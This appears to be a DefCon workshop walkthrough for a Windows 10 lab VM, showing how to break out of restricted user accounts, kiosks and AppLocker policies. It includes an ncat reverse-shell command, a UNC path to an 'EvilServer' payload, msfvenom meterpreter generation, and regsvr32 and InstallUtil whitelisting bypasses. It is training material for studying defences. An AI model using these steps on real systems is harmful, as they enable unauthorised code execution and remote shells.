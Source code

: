 # Lab Setup

1. Download a free Windows 10 Virtual Machine.
  * https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
2. Boot the machine and log in as IEUser.
3. Launch PowerShell (Desktop App) as Administrator, execute the "Windows_Breakout_PrivEsc_Setup_v1.2.ps1" script and wait for the machine to reboot!
4. Extract the "DefCon-Tools.zip" archive in "C:\DefCon-Tools".

### Notes

* It is important that the Microsoft VM is used as part of the lab relies on AppLocker which is only available in Windows Professional & Enterprise.
* All user account have their password set to "123" for convenience.
* Both "restricted1" and "kiosk2" have startup scripts which will log the user out after authenticating for the first time. Be patient, allow this to complete!

# Walkthrough

## Got Shell?

### Restricted1

**Breaking out**
a) Right-click on Start button -> File Explorer
b) Windows Button -> type name of program you want to execute

**Solutions**
a) ftp.exe -> !whoami
b) powershell -> whoami
c) powershell_ise -> whoami
d) batch script -> open notepad, type whoami > whoami.txt, run script

### Restricted2

*Can only run notepad*

**Solutions**
a) Copy ftp.exe to desktop -> rename to notepad.exe -> !whoami
b) Copy cmd.exe to desktop -> rename to notepad.exe -> whoami
c) Copy custom shell (ex. React OS) to desktop -> rename to notepad.exe -> whoami

### Kiosk1

*Aka the worst kiosk ever! The main challenge here is getting an explorer window, from there it is trivial to execute anything.*

**Solutions**
a) Sticky Keys: Press Shift 5x -> Press on Link in the popup window
b) Task Manager: CTRL+SHIFT+ESC -> File -> Run New Task
c) Print: Right-click anywhere -> Print -> Find Printer
d) Open new tab -> Right-Click&Translate with Bing -> Or press F1
  * file:///C:/Windows/system32/cmd.exe
e) Developer Tools: Press F12 -> Performance Tab -> Press on 3rd icon "Importing Profile Session"
f) Open menu: Press CTRL+O -> Press Browse

### Kiosk2

*Uses Assigned access to expose a single Windows application to the user. Pretty decent lockdown, lots of mitigations in place, Microsoft made a concerted effort to prevent breakout. However, one thing was overlooked..*

**Solution**
a) Possible to mount UNC path. Even though visibility is restricted to folders, it is possible to execute binaries even with arguments.
  * \\EvilServer\Share\Payload.exe
  * \\127.0.0.1\C$\DefCon-Tools\Tools\ncat.exe -nv 192.168.187.1 443 -e C:\Windows\System32\cmd.exe

### AppLocker1

*Default rules & blocks powershell, cmd, rundll32. This user illustrates AppLocker configuration failures.*

**Solutions**
a) powershell_ise is not blocked.
b) User has a folder which is exempt from AppLocker Policy
  * (Get-AppLockerPolicy -Local).RuleCollections
  * Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse
  * reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\560d03c2-b277-4331-8c59-bc7d4eb08359

### AppLocker2

*Default rules & blocks powershell, powershell_ise, cmd. This user illustrates common AppLocker/SRP bypasses by leveraging trusted binaries.*

**Solutions**
a) Classic rundll32
  * C:\Windows\System32\rundll32.exe C:\DefCon-Tools\SRP\Alternatives\cmd.dll,WhatEver
b) regsvr32
  1) SCT Execution
    Reading Material:
      * http://en.wooyun.io/2016/04/23/Use_SCT_to_Bypass_Application_Whitelisting_Protection.html
      * https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302

    Example:
      * C:\Windows\System32\regsvr32.exe /u /s /i:"C:\DefCon-Tools\SRP\SubTee\Regsvr32-notepad.sct" scrobj.dll

  2) DLL Execution
    Reading Material:
      * http://subt0x10.blogspot.com/2016/06/what-you-probably-didnt-know-about.html

    Example:
      **cmd.dll (ReactOS)**
      * C:\Windows\System32\regsvr32.exe "C:\DefCon-Tools\SRP\Alternatives\cmd.dll"
	  
      **custom dll (with limitations)**
      * C:\Windows\System32\regsvr32.exe C:\DefCon-Tools\SRP\SubTee\Resvr32-CalcNotepad.dll
      * C:\Windows\System32\regsvr32.exe /u C:\DefCon-Tools\SRP\SubTee\Resvr32-CalcNotepad.dll

      **custom dll shellcode**
      * Visual Studio project -> C:\DefCon-Tools\SRP\SubTee\Regsvr32-DLL-ShellCode
      * msfvenom -p windows/meterpreter/reverse_tcp LHOST='192.168.187.132' -f csharp
c) InstallUtil
  1) SubTee POC
    Reading Material:
      * http://subt0x10.blogspot.com/2015/08/application-whitelisting-bypasses-101.html
      * https://gist.github.com/subTee/408d980d88515a539672

    Example:
      * msfvenom -p windows/meterpreter/reverse_tcp LHOST='192.168.187.132' -f csharp
      * C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /unsafe /platform:x86 /out:”C:\DefCon-Tools\SRP\SubTee\InstallUtil-ShellCode.exe” ”C:\DefCon-Tools\SRP\SubTee\InstallUtil-ShellCode.cs”
      * C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U ”C:\DefCon-Tools\SRP\SubTee\InstallUtil-ShellCode.exe”

  2) p0wnedshell
    Reading Material:
      * https://github.com/Cn33liz/p0wnedShell

    Example:
      * **compile:** C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe /reference:"C:\DefCon-Tools\SRP\SubTee\p0wnedShell\System.Management.Automation.dll" /reference:System.IO.Compression.dll /win32icon:"C:\DefCon-Tools\SRP\SubTee\p0wnedShell\p0wnedShell.ico" /out:"C:\DefCon-Tools\SRP\SubTee\p0wnedShell\p0wnedShellx64.exe" /platform:x64 "C:\DefCon-Tools\SRP\SubTee\p0wnedShell\*.cs"
      * **execute:** C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "C:\DefCon-Tools\SRP\SubTee\p0wnedShell\p0wnedShellx64.exe"